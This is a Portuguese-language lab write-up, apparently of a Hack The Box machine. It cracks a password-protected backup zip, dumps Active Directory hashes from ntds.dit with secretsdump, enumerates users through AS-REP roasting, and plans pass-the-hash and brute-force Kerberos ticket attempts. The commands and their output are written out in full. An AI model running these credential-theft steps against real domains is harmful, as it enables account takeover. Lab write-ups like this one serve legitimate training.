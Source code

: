 O ficheiro está protegido por palavra passe... Podemos tentar romper a palavra passe por força bruta com o dicionário **_rockyou.txt_** da seguinte forma:

```bash
zip2johh backup.zip > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
john hash --show

#>  backup.zip:iloveyousomuch::backup.zip:Active Directory/ntds.jfm, registry/SECURITY, Active Directory/ntds.dit:backup.zip

unzip backup.zip  # iloveyousomuch
```

O conteúdo do ficheiro zip é espetacular! Tem um ficheiro SYSTEM e um ficheiro ntds.nit. Com esses dois ficheiros é possível extrair todos os hashes de um Domain Controller.

```bash
secretsdump.py -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL > contents/secretsdump.out
```

O output é enorme. Deve ser a simulação da GOOGLECORP ou coisa parecida LOOOL... 8005 linhas!!

```bash
cat secretsdump.out | grep aad | awk -F ':' '{print$1}' > users
cat secretsdump.out | grep aad | awk -F ':' '{print$4}' > hashes
```

Temos agora dois ficheiros, um de users, e um de hashes. Vamos primeiro enumerar os users... Para isso, nada melhor que o kerberos para enumerar os users existentes. Vamos tentar efetuar um AS-REP Roasting Attack. Se o user existe, a resposta vai ser que o usuário não tem pre autenticação ativada, e se tivermos um hash kerberos, bem podemos tentar crackeá-lo...

```bash
GetNPUsers.py htb.local/ -no-pass -usersfile users | grep -v "not found"
#>  [-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
#>  [-] User APT$ doesn't have UF_DONT_REQUIRE_PREAUTH set
#>  [-] User henry.vinson doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Temos 3 usuários válidos. Mas não conseguimos obter nenhum TGT. A lista de Hashes que temos poderá ter (e confirmo já que tem lol) um hash válido para 1 dos usuários. Pode estar a simular um usuário que mudou de nome mas não mudou de password. Isto pode ter facilmente verificado através de crackmapexec

```bash
crackmapexec smb apt -u valide_users -H hashes
```

O problema é que a máquina alvo possui algo que impede ataques por força bruta ao serviço Samba! Depois de umas 50 tentativas, a máquina bloqueia o nosso IP e é preciso reiniciar a máquina...

Posto isso, podemos tentar receber um TGT com username e um HASH (ou uma password).

## getTGT.py

Existe uma outra utilidade do Impacket que se chama **getTGT.py** e que faz este serviço. O problema é que faz apenas e só uma petição. Não dá para fazer por força bruta com recurso a dicionário. Bem, isto resolve-se com bash, um **for loop** e paralelizar as petições. Depois ainda há outro problema. No output, não temos informações do nome ou do hash que está a ser usado. Para contornar isso, decidi enviar cada output em separado, e cujo o nome do ficheiro é simplesmente o hash... O output correcto informa que foi criado um ficheiro qualquer com o formato "username.ccache". Depois com um find e um grep, é fácil recuperar o hash e o seu username...
